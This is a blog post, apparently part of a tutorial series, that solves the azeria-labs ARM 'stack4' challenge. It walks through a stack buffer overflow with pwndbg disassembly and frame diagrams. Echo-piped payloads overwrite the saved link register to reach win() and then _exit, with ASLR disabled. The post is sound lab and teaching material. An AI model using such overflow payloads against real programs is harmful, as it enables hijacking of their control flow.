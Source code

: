 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part V"
tags: [reversing, exploiting, ARM, iasm, azeria-labs, egg, shellcode]
inline_default_language: nasm
---
```


[Fifth challenge](https://github.com/azeria-labs/ARM-challenges)
with a small introduction to *process continuation*.<!--more-->


## Planning the exploit

```nasm
pwndbg> pdisass &main
 ► 0x10464 <main>       push   {fp, lr}
   0x10468 <main+4>     add    fp, sp, #4
   0x1046c <main+8>     sub    sp, sp, #0x48
   0x10470 <main+12>    str    r0, [fp, #-0x48]
   0x10474 <main+16>    str    r1, [fp, #-0x4c]
   0x10478 <main+20>    sub    r3, fp, #0x44
   0x1047c <main+24>    mov    r0, r3
   0x10480 <main+28>    bl     #gets@plt <gets@plt>

   0x10484 <main+32>    mov    r0, r3
   0x10488 <main+36>    sub    sp, fp, #4
   0x1048c <main+40>    pop    {fp, pc}
```

`sub r3, fp, #0x44` means that the buffer begins 0x44 bytes from `fp`,
the begin of the stack frame.

As we saw [previously](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
the stack frame includes the *previous* value
of `fp` but not `lr` which it is *immediately below*.

So a buffer overflow of 0x44 bytes will overwrite the stored `fp` and an
overflow of 0x48 will overwrite `fp` and `lr`.

If we do the latter, the function `main`{.cpp} will jump to
our own code on *return*.

{% call marginnotes() %}
The left diagram shows the stack from lower
addresses (left) to higher addresses (right) and the `main`{.cpp}'s and
`__libc_start_main`{.cpp}'s stack frames (`main`{.cpp} and `start`{.cpp} for short)
 {% endcall %}


```nasm
    main --------------v------ start
.......   fp      lr   |  ??   ??   ??   ??
```

As you can see the `fp` and `lr` are stored in the stack as well as an
unknown local variables of `__libc_start_main`{.cpp}.

When the overflow occurs this is the result:

```nasm
    main ---------------v----- start
.......   fp      lr    | ??   ??   ??   ??         (pre-exploit)
    main ---------------v----- start
AAAAAAA   BB      addr1 | ??   ??   ??   ??         (overflow)
```

No more crazy stuff is needed here, we can jump to `win`{.cpp} (`addr1 == 0x1044c`{.cpp})
directly.

## Exploit level 1

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x4c\x04\x01\x00' | ./stack4
code flow successfully changed
Segmentation fault
```

Yeah! but that segfault looks sloppy.

## A more *polite* exploit

Once `win`{.cpp} executes it will pop from the stack the stored
`lr` and set it into `pc`.

We didn't call `win`{.cpp} with `bl` or similar so the `lr` was never
set correctly and the value pushed in the stack by `win`{.cpp} was garbage.

When `win`{.cpp} returns will jump to who-knows-where.

```nasm
    main ---------------v----- start
.......   fp      lr    | ??   ??   ??   ??         (pre-exploit)
    win ----------------v----- start
          BB      ??    | ??   ??   ??   ??         (win called)
                  ^
                  ret address of win
```

And if we don't jump to `win`{.cpp} exactly?

We could jump to the second instruction of `win`{.cpp}:
we will be **skipping** the `push`.

```nasm
pwndbg> pdisass &win
   0x1044c <win>        push   {fp, lr}
 ► 0x10450 <win+4>      add    fp, sp, #4
   0x10454 <win+8>      ldr    r0, [pc, #4]
   0x10458 <win+12>     bl     #puts@plt <puts@plt>

   0x1045c <win+16>     pop    {fp, pc}
```

In this way we can *emulate* the `push` of `fp` and `lr` adding 8 bytes
to our payload.

```nasm
    main ---------------v--------- start
.......   fp      lr    | ??    ??      ??   ??      (pre-exploit)
    main ---------------v--------- start
AAAAAAA   BB      addr1 | CC    addr2   ??   ??      (overflow extended)
                        v--------- start
          ??      ??    | CC    addr2 | ??   ??      (win called without push)
        ------ win -------------------^
```

So now we control where `win`{.cpp} will return: `addr2`{.cpp}.

## Planning a controlled exit

An ideal situation would make the program continue running after
exploiting it, known as
[process continuation shellcode](https://azeria-labs.com/process-continuation-shellcode/)
but it is too complex for now.

The simplest thing is to call
[`_exit`{.cpp}](https://linux.die.net/man/2/_exit)
a thin glib wrapper of [`exit_group`{.cpp}](https://man7.org/linux/man-pages/man2/exit_group.2.html)
syscall that exits the process and its threads.

```nasm
pwndbg> pdisass &_exit
 ► 0xb6f1b934 <_exit>       push   {r7, lr}
   0xb6f1b938 <_exit+4>     mov    r2, r0
   0xb6f1b93c <_exit+8>     mov    r7, #0xf8
   0xb6f1b940 <_exit+12>    svc    #0
   0xb6f1b944 <_exit+16>    cmn    r0, #0x1000
   0xb6f1b948 <_exit+20>    bhi    #_exit+68 <_exit+68>
```

The `svc #0` is what it triggers the syscall. In Arm 32bits the
instruction is `swi` but the disassembler renames it to the newer name:
*supervisor call*.

The syscall number is passed to the kernel via `r7` as mentioned in [man
syscall(2)](https://man7.org/linux/man-pages/man2/syscall.2.html).

In our case [0xf8 is the syscall number](https://github.com/torvalds/linux/blob/v4.17/arch/arm/tools/syscall.tbl#L265)
of
[`exit_group`{.cpp}](https://man7.org/linux/man-pages/man2/exit_group.2.html).

## Exploit level 2

We are going to cheat a little and disable ASLR so we can hardcode
the address of `_exit`{.cpp} (0xb6f1b934)

```shell
pi@raspberrypi:~$ setarch linux32 --addr-no-randomize /bin/bash
(aslr disabled) pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x50\x04\x01\x00BBBB\x34\xb9\xf1\xb6' | ./stack4
code flow successfully changed

(aslr disabled) pi@raspberrypi:~$ echo $?
31

(aslr disabled) pi@raspberrypi:~$ exit
exit
```

As you can see the return code of the process was 31. I corroborated
with a debugger the value of the registers before the syscall and `r0`
was 31 as expected.

Instead of jumping to `_exit`{.cpp} we could jump before to a piece of code
--known as gadget-- that sets `r0` to zero and then jump to
`_exit`{.cpp}.

But that's for another post.

